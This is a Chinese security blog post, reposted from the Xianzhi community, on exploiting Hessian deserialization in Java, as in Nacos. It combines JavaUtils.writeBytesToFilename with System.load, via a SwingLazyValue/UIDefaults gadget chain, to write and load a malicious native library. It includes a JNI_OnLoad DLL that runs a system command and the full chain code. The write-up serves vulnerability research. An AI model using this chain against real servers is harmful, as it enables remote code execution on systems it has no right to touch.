







# java 静态方法 load+写文件组合拳利用-先知社区

> **来源**: https://xz.aliyun.com/news/16858  
> **文章ID**: 16858

---

# java 静态方法 load+写文件组合拳利用

## 前言

前几天看到 nacos 漏洞的时候发现本质是 hessian 反序列化，而 hessian 反序列化和其他反序列化个人认为最特殊的一点即是一个类根本不需要序列化接口，这样利用面大大增加，而其原生的反序列化又只能利用静态方法，然后就开始学起来了 java 中的静态方法

## 动态链接库

emmm ，打过 ctf 的对动态加载 so 文件一定不陌生，我感觉这个其实和那个很类似的

其实本质就是去调用 native 方法  
参考<https://www.cnblogs.com/nice0e3/p/14067160.html>  
JNI 的全称叫做（Java Native Interface），其作用就是让我们的 Java 程序去调用 C 的程序。实际上调用的并不是 exe 程序，而是编译好的 dll 动态链接库里面封装的方法。因为 Java 是基于 C 语言去实现的，Java 底层很多也会去使用 JNI。

在开发中运用到的也是比较多，比如在前面分析链的时候，追溯到一些底层实现代码的时候就可以看到一些方法是使用 Native 来修饰的。这就说明他是一个 c 语言去实现的一个方法。



我们首先构造 dll 文件

emmm 需要你能够使用 gcc 命令

可以下载一下 MinGW

然后配置一下环境变量

  
在 cmd 输入 mingw-get 弹出如下界面就算成功



然后输入 mingw-get install gcc  
  
就会下载 gcc 了

然后就是写一个 c 文件

```
#include <stdlib.h>
#include <jni.h>

JNIEXPORT jint JNICALL JNI_OnLoad(JavaVM *vm, void *reserved) {

    system("calc");
    //system("touch success");
    return JNI_VERSION_1_8;
}
```

然后生成 dll 文件

```
gcc -fPIC -I "%JAVA_HOME%\include" -I "%JAVA_HOME%\include\win32" -shared -o jniOnload.dll 1.c
```

## 加载动态链接库

### DEMO

调用这个方法就可以弹出计算器

```
public static  void loaddll(){
    try {
        System.load("dll文件的绝对路径");
    }catch (UnsatisfiedLinkError e){
        e.printStackTrace();
    }
}
```



我们使用的是 System.load  
而 system 类是很重要的一个类  
System 类在 Java 中提供了与系统交互的静态方法和属性，是处理输入输出、获取系统信息和管理程序运行的重要工具。它的静态方法和属性可以在任何地方直接使用，无需创建 System 类的实例

然后看到 load 方法

```
public static void load(String filename) {
    Runtime.getRuntime().load0(Reflection.getCallerClass(), filename);
}

```

是一个静态类

idea 的描述

  
也告诉我们了是一个加载文件的方法

### 流程分析

跟进 System.load 方法

发现调用了load0方法(，方法名以 `0` 结尾意味着这个方法是一个本地方法（native method），与系统的底层实现有关。这些方法通常由 JVM 自己调用，而不是由用户代码直接调用。)

```
public static void load(String filename) {
        Runtime.getRuntime().load0(Reflection.getCallerClass(), filename);
    }
```

跟进 load0

首先我们传入的必须是绝对路径，不然就会抛出异常

然后 ClassLoader.loadLibrary 去加载



跟进 loadLibrary,只看重点

```
if (loadLibrary0(fromClass, new File(name))) {
                return;
            }
```

loadLibrary0

```
NativeLibrary lib = new NativeLibrary(fromClass, name, isBuiltin);
                nativeLibraryContext.push(lib);
                try {
                    lib.load(name, isBuiltin);
                }
```

实例化 NativeLibrary 对象去调用它的 lib 去加载,已经是一个 native 方法了

```
native void load(String name, boolean isBuiltin);
```

## 写入动态链接文件

java 中能够写文件的方法就更多了  
比如熟知的 JavaUtils.writeBytesToFilename

```
public static void writeBytesToFilename(String filename, byte[] bytes) {
    if (filename != null && bytes != null) {
        try (OutputStream outputStream = Files.newOutputStream(Paths.get(filename))) {
            outputStream.write(bytes);
        } catch (IOException ex) {
            LOG.debug(ex.getMessage(), ex);
        }
    } else {
        LOG.debug("writeBytesToFilename got null byte[] pointed");
    }
}
```

测试代码如下

```
import com.sun.org.apache.xml.internal.security.utils.JavaUtils;
import java.io.IOException;
import java.nio.file.Files;
import java.nio.file.Paths;
public class test1 {

    public static void main(String[] args) throws IOException {
        String sourceFilePath = "F:\1.txt";
        String destinationFilePath = "F:\123.txt";
        byte[] content = Files.readAllBytes(Paths.get(sourceFilePath));
        JavaUtils.writeBytesToFilename(destinationFilePath,content);
    }
}

```

## 组合拳

参考<https://exp10it.io/2023/06/nacos-jraft-hessian-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-rce-%E5%88%86%E6%9E%90/#javautilswritebytestofilename--systemload师傅>

秩序与对着这个 paylaod 改改就好了

```
byte[] content = Files.readAllBytes(Paths.get("/Users/exp10it/exp.dylib"));
SwingLazyValue swingLazyValue1 = new SwingLazyValue("com.sun.org.apache.xml.internal.security.utils.JavaUtils", "writeBytesToFilename", new Object[]{"/tmp/exp.dylib", content});
SwingLazyValue swingLazyValue2 = new SwingLazyValue("java.lang.System", "load", new Object[]{"/tmp/exp.dylib"});

UIDefaults u1 = new UIDefaults();
UIDefaults u2 = new UIDefaults();
u1.put("aaa", swingLazyValue1);
u2.put("aaa", swingLazyValue1);

HashMap map1 = HashColl.makeMap(u1, u2);

UIDefaults u3 = new UIDefaults();
UIDefaults u4 = new UIDefaults();
u3.put("bbb", swingLazyValue2);
u4.put("bbb", swingLazyValue2);

HashMap map2 = HashColl.makeMap(u3, u4);

HashMap map = new HashMap();
map.put(1, map1);
map.put(2, map2);
```

## 最后

然后其实在 spel 等各种表达式中也是可以调用静态方法的，是不是我们还可以在 spel 中使用上呢？
